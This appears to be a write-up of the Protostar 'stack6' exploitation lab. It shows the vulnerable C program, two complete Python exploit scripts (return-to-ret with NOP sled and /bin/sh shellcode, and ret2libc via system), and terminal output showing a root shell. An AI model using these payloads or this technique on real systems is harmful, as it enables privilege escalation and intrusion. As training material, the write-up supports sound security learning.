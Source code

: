 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Aim: get the root shell

Method 1:
Here is the exploit (saved as `st6.py`):
```python
import struct
buffstart=0xbffff75c
ebpval=0xbffff7a8
padding='a'*(ebpval-buffstart)
ebpnewval=struct.pack('<I',ebpval+0xf0)
eip=struct.pack('<I',0x8048508)  # 0x80484f9 also works (or any address pointing to ret instruction)
eip2=struct.pack('<I',ebpval+0xc0)
nopslide='\x90'*1000
trap='\xcc'*4
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
# output=padding+ebpnewval+eip+eip2+nopslide+trap
output=padding+ebpnewval+eip+eip2+nopslide+shellcode
print output
```

Sample output:
```bash
user@protostar:/opt/protostar/bin$ (python ~/st6.py;cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�aaaaaaaa����h�������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                                                                      ̀1�@̀
whoami
root
user@protostar:/opt/protostar/bin$
```

Method 2 (ret2libc):
Hints:
- `info proc map`: shows list of mapped memory regions in running process in GDB
- `strings -a -t x <filepath>`: Gives strings with offset in hex
- `/lib/libc-2.11.2.so`: Path of libc in protostar (got using `info proc map` in GDB)
- `p system`: Useful for getting address of `system` using GDB

Here is the exploit script (saved as `st6b.py`):
```python
import struct
buffstart=0xbffff75c
ebpval=0xbffff7a8
padding='a'*(ebpval-buffstart)
ebpnewval = struct.pack('<I',ebpval+0xf0)
binshAddr = struct.pack('<I',0xb7e97000+0x11f3bf)
eip       = struct.pack('<I',0xb7ecffb0) # Address of system
retaddr_after_system='aaaa' # we don't care about this
print padding+ebpnewval+eip+retaddr_after_system+binshAddr
```

Sample output:
```bash
user@protostar:/opt/protostar/bin$ (python ~/st6b.py;cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaa�������aaaa�c��
whoami
root
Segmentation fault
```
